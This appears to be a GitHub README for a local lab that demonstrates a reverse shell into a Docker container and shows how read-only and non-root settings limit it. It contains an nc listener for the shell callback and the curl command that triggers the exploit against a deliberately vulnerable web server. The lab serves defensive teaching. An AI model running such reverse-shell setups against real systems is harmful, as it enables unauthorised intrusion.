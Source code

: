 # README

Demonstrates getting access into a container

📝 TODO:

* Is it possible to escape the read-only and run tools in the package lists?  


## Find IP

```sh
#MacOS
LOCAL_IP=$(ifconfig en0 inet | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | head -n 1)  
echo ${LOCAL_IP}
```

## No Protection

### Shell 1

Run the stupid webserver.  Retrieve your host ip address and replace.  

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh 
# Try and install something.
apt install curl

# Exiting will kill the container process
exit
```

## Readonly

### Shell 1

Run --read-only.  

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --read-only --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Nonroot

### Shell 1

Build and run a non-root user image.  

```sh
docker build --target non_root -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh 
# You're webuser now.
whoami
# Try and install something - but this time it FAILS.
apt install curl


# Exiting will kill the container process
exit
```

## Troubleshooting  

Test with a simple webservice  

```sh
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```sh
tmuxinator
tmuxinator stop reverseshell
```

